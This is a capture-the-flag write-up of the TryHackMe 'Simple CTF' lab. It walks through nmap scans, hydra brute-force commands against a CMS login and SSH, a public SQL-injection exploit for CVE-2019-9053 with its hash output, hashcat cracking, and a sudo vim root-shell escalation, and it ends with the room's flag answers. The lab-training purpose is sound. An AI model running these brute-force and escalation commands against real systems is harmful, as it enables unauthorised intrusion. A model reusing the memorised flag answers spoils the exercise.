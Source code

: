 ```yaml
---
title: Simple CTF
date: 2022-05-07 17:00:00 +500
categories: [THM, easy machines]
tags: [hash]    # TAG names should always be lowercase
---
```



### How many services are running under port 1000?

Let's run Nmap:

```terminal
nmap -p- --open -n -v 10.10.228.206
```

```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

> 2

### What is running on the higher port?

We don't know what service is running on port 2222 so let's see what is it, and, incidentally, the other ports.

```terminal
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

> ssh

### What's the CVE you're using against the application?

now time to investigate the service, the FTP server accepted Anonymous login, and was only one file which was a note for Mitch a possible credential.

```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

and we know that he uses the same password for everything and it's weak.

The next step was to search domains on the web page, that had only the default Apache screen. I found /robots.txt 

```
Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```

with a directory that was nothing, and a line of command of Linux? looks like mike is a user, maybe he's mitch.

the other directory that gobuster found was /simple a content management system like WordPress. It's the default after-installation page, it has a post made by mitch so now we know that is the user. And in the page says that the administration console is under 'http://yourwebsite.com/cmsmspath/admin' with a redirect link, Let's try to brute force with hydra since the note said that his password is weak.

set up the hydra command:

syntax 
``` terminal 
hydra -l <USER> -p <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”
```

* Login page
  /simple/admin/login.php
* Request Body
  username=^USER^&password=^PWD^&loginsubmit=Submit
* Error message
  User name or password incorrect

```terminal
hydra -l mitch -P /usr/share/wordlists/rockyou.txt 10.10.228.206 http-post-form "/simple/admin/login.php:username=^USER^&password=^PWD^&loginsubmit=Submit:User name or password incorrect"
```

it didn't find the password nor for mike, so at this point, I realized I have lost course, the question was what CVE is this application vulnerable to, so I looked up the cms version, and I found it's vulnerable to SQL injection, the first thing I did after this was to try some payloads like "'OR 1=1 --" but no luck.

> CVE-2019-9053

### To what kind of vulnerability is the application vulnerable?

> sqli

### What's the password?

The first thing after searching for the CMS version was an exploit written in Python, so I downloaded it, wasn't working at first because it looked like was written for python2, but running it with python2 it said it couldn't find a library, so I tried to make it work with python3, all I needed to do was adding () to the prints.

exploit: https://www.exploit-db.com/exploits/46635

this is the output:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

this confirms mitch user, and we get a password, that looks like its encrypted, anyway, it tried and it didn't work, so now I was looking to crack it, I tried with hashcat but nothing was working, tried with the salt, without it, different modes, even with the wordlist that recommended the hint.

after this, I gave up on the site and tried to bruteforce ssh, since the note said he uses the same password.
*changing the port with the -s flag since the ssh service was on that port

```terminal
hydra -l mitch -P /usr/share/wordlists/best110.txt 10.10.228.206 -s 2222 ssh
```

and I got a password!


> secret

*the intended way was indeed using hashcat with a config I'm pretty sure I used but maybe I made a typo, who knows
```terminal
hashcat -O -m 20 -a 0 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/best110.txt
```

### Where can you login with the details obtained?

Now this feels strange because the answer is ssh but I actually got it from brute forcing this service and not the intended way of the vulnerability on the CMS page.

> ssh

### What's the user flag?

log into the ssh

```terminal
ssh mitch@10.10.228.206 -p 2222
```

the file is right there: user.txt

> G00d j0b, keep up!

### Is there any other user in the home directory? What's its name?

ls /home

> sunbath

### What can you leverage to spawn a privileged shell?

run sudo -l to see what I can run as sudo, and it's vim, I head over gtfobin pretty sure that this can spawn a root shell.

and indeed, with this command, I got instantly a root shell

```terminal
sudo vim -c ':!/bin/sh'
```

### What's the root flag?

cat /root/root.txt

> W3ll d0n3. You made it!
